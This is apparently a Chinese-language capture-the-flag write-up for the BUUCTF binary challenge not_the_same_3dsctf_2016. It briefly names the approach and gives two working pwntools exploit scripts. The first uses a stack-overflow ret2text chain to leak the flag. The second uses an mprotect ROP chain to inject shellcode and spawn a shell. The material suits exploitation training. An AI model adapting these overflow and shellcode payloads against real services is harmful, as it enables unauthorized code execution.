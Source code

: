 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#not_the_same_3dsctf_2016)

这是一道ret2text(32)题，但是也可以用ret2shellcode思路来做

# exp

题解一：通过read函数把flag的读出来

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',26095)
#p=process('./not_the_same_3dsctf_2016')
elf=ELF('./not_the_same_3dsctf_2016')
back_addr=0x80489A0
printf_addr = elf.sym['write']
flag_addr=0x80ECA2D
main_addr=0x80489E0
payload1=flat(b'A'*0x2d,p32(back_addr),p32(printf_addr),p32(main_addr),p32(1),p32(flag_addr),p32(50))
#gdb.attach(p)
p.sendline(payload1)
p.recv()

```

题解二：思路通过mprotect函数对.got.plt段进行改成可读可写可执行，注入shellcode

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',27042)
#p=process('./not_the_same_3dsctf_2016')
elf=ELF('./not_the_same_3dsctf_2016')

mprotect = elf.sym['mprotect']
read_addr=elf.sym['read']
#mprotect=0x0806ED40
#read_addr=0x0806E200
NX_addr=0x080EB000
pop3_ret=0x0804f420
shellcode=asm(shellcraft.sh())

payload1=flat(b'A'*0x2d,p32(mprotect),p32(pop3_ret),p32(NX_addr),p32(0x100),p32(7),p32(read_addr),p32(pop3_ret),p32(0),p32(NX_addr),p32(len(shellcode)),p32(NX_addr))
#gdb.attach(p)
p.sendline(payload1)
p.sendline(shellcode)
p.interactive()
```

